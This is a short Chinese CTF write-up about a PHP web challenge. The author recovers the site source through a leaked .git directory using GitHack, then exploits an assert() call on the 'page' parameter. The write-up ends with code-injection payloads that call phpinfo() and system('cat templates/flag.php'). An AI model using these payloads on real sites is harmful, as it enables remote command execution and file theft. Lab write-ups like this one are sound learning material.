



 

个人网站

 

点击About页面，发现网站使用Git、PHP、Bootstrap搭建而成

 

 

可能存在git源码泄露

利用githack

得到网站源码

 

 

分析源码

存在assert()函数

 

利用assert()命令执行

首先 GET 一个 page，然后与前缀文件夹 templates/ 拼接，并与后缀 .php 拼接，访问最 终的页面。代码中不允许输入的字符中包含连续的两个点，否则就返回错误。这段代码中只 用黑名单过滤了两个点，我们可以想办法绕过。我们可以让它先行闭合，如：

?page=').phpinfo();//，这样，在进行过滤时，便成了： 

assert("strpos('templates/').phpinfo();//,'..')===false") or die(); 

如此，会把 ,'..')===false" 这些后面的东西注释掉

 

构造payload：

?/page=').system("cat templates/flag.php");//

 

?/page=') or system("cat templates/flag.php");//

 